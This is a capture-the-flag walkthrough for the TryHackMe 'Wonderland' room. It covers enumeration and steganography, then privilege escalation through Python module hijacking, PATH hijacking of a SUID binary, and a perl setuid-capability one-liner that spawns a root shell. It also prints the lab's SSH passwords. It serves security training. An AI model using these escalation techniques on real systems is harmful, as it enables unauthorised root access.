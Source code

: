 # Wonderland 

Wonderland is a great CTF that focusses on teaching you about how to perform code tampering attacks. It also allows you to see the dangers of giving sudo/SUID/capabilities to files which don't need it/can work against you as an attack vector.

### Information:
**Name:** Wonderland  
**Difficulty:** Medium  
**Released:** Fri 05 Jun 2020   
**Creator:** NinjaJc01  
**URL:** https://tryhackme.com/room/wonderland

## Enumeration

Start off with an nmap scan that looks like this:

```
nmap -sC -sV -Pn -v <TARGET_IP>
```

![Image](images/1.png)

This reveals the ssh port (for foothold) and the http port (for the actual exploit). The website looks like this:

![Image](images/2.png)

Run a GoBuster command, like this:

```
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

![Image](images/3.png)

This reveals the `/r` directory, which gives another excerpt of text (These are all useless btw). The original way that I figured out how to go from here was to see the home page and notice that the word `rabbit` was said many times, so I got it by pure luck. The more sensible way is to download the rabbit picture on the website and run it through steghide like this:

```
steghide info white_rabbit_1.jpg		# there is no password, just press enter

steghide etract -sf white_rabbit_1.jpg

cat hint.txt
```

![Image](images/4.png)

Here, it is shown that directorys will look like this : `/r/a/b/b/i/t`

This leads you to a webpage that gives some interesting information. In the source code for the website, you can see this:

![Image](images/5.png)

`alice:HowDothTheLittleCrocodileImproveHisShiningTail` is the username and password that can be used to SSH into the machine, using this command:

```
ssh alice@<TARGET_IP>
```

This gives a foothold onto the machine, with which we can escalate our privileges and get user.txt and root.txt.

## PrivEsc

Contrary to normal CTF's, there is root.txt in alice's home directory, which can only be read with root. The hint provided in the CTF says that everything is upside down, so you can do `cat /root/user.txt` to get the user flag.

### Alice to Rabbit

While looking into the home directory, you see another file called `walrus_and_the_carpenter.py`. Checking `/home` shows that there are other users as well which bring forth the idea that we have to jump between user accounts. Checking `sudo -l` also reveals that alice has sudo permission to execute `walrus_and_the_carpenter.py` as the rabbit user.

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ ls /home
alice  hatter  rabbit  tryhackme
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Here, we start looking into the (I'm gonna call it walrus.py from now on) walrus.py file and discover the following code:

```
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

...

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

This code imports the random.py module, and randomly prints out 10 lines from the poem variable. The thing that can be done here, is to hijack the random.py module. This works because python would look for the random.py module in the current working directory first. Make a random.py file like this:

```
alice@wonderland:~$ cat > random.py << EOF
> import os
> os.system("/bin/bash")
> EOF
```

Execute the walrus.py like this:

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

### Rabbit to Hatter

Now you have access to the rabbit's shell. From here, do `cd /home/rabbit` and do `ls -l`. 

```
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

There is a SUID and GUID elf file called teaParty, owned by root. On execution, you get the following response:

![Image](images/6.png)

Since we don't have the `strings` command available on the target machine, use `python3.6 -m http.server <PORT_NUM>` to transfer the teaParty file and analyze it. Tip: Use `wget http://<TARGET_IP>:<PORT_NUM>/teaParty` to get the file onto your attacking machine.

Use Ghidra to reverse engineer and get the C code back to us, which looks like this:

```
void main() {
    setuid(0x3eb);
    setgid(0x3eb);
    puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
    system("/bin/echo -n 'Probably by ' && date --date='next hour' -R");
    puts("Ask very nicely, and I will give you some tea while you wait for him");
    getchar();
    puts("Segmentation fault (core dumped)");
    return;
}

```

The SUID and GUID is being set to 1003 (Hexadecimal) you also see the date command being used, except it does not have an absolute path. We can hijack the path for date command using the following code:

```
rabbit@wonderland:/home/rabbit$ cat > date << EOF
> #!/bin/bash
> /bin/bash
> EOF

rabbit@wonderland:/home/rabbit$ PATH=/home/rabbit:$PATH

rabbit@wonderland:/home/rabbit$ chmod 777 date
```
Run `./teaParty` and you will be given the shell for the hatter account. 

### Hatter to Root

From there, you can go to `/home/hatter` directory and see that there is a password.txt which contains the password for the hatter account.

`hatter:WhyIsARavenLikeAWritingDesk?` is the username and password and you need to SSH into the target machine with these credentials.

From here, you can run linPEAS.sh (Transfer it with the http server method I displayed above) and run it. linPEAS.sh : https://github.com/carlospolop/PEASS-ng/releases/download/20220717/linpeas.sh

```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

We can see that the machine has capabilities set on perl (Basically perl runs as a root process). Having capabilities set on perl leads to a privilege escalation vulnerability (found here: https://gtfobins.github.io/gtfobins/perl/#capabilities) that we can exploit on this machine.

Run the following command:

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

After running this, you get the root shell, which can be used to read the `root.txt` file using `cat /home/alice/root.txt`. Additionally, you can go to /root and read the user.txt with `cat /root/user.txt`.
